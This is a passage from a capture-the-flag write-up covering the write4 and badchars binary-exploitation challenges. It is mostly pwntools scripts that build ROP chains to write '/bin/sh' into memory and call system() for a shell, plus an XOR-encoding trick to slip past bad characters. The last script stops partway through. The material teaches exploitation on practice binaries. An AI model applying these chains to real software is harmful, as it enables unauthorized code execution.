 
## write464

```python
from pwn import *

p = process("./write4")
pop_pop_ret_address = 0x0000000000400890
mov_ret_address = 0x0000000000400820
write_start_address = 0x006010f0
system_plt_address = 0x00000000004005E0
pop_rdi_ret = 0x0000000000400893
payload = flat(["A"*(0x20+8), pop_pop_ret_address, write_start_address, "/bin/sh\x00", mov_ret_address, pop_rdi_ret, write_start_address, system_plt_address], word_size=64)
p.sendline(payload)
p.interactive()
```

# 0x05 badchars

Just like write4 problem, `cat flag` string shouldn't contain badchars which are `b i c / <space> f n s` in checkBadchars function. After reading gadgets and introduction we have, we can use the write4 gadget to write encoded string and xor gadget to decode. The first thing we should consider is to pick the xor char. Small script in hand:

```python
badchars = [0x62, 0x69, 0x63, 0x2f, 0x20, 0x66, 0x6e, 0x73]
sh = "/bin/sh\x00"

for i in xrange(256):
    flag = True
    new_sh = "".join([chr(i^ord(sh[x])) for x in xrange(len(sh))])
    for b in badchars:
        if chr(b) in new_sh:
            flag = False
    if flag:
        print str(i) + ":" + repr(new_sh.encode('hex'))
```

Because xor gadget xors only one byte every time, the for loop is also in our hand.

## badchars32

```python
from pwn import *

p = process("./badchars32")

# 0x08048899 : pop esi ; pop edi ; ret
pop_pop_ret_sd_address = 0x08048899
# 0x08048893 : mov dword ptr [edi], esi ; ret
mov_ret_address = 0x08048893
# 0x08048896 : pop ebx ; pop ecx ; ret
pop_pop_ret_bc_address = 0x08048896
# 0x08048890 : xor byte ptr [ebx], cl ; ret
xor_ret_address = 0x08048890
# "".join([chr(2^ord(sh[i]) for i in xrange(len("/bin/sh\x00"))])
sh_part_one = 0x2d606b6c
sh_part_two = 0x2d716a02
write_start_address = 0x0804a0f0
system_plt_address = 0x080484E0

payload = ""
payload += "A" * (0x28+4)
```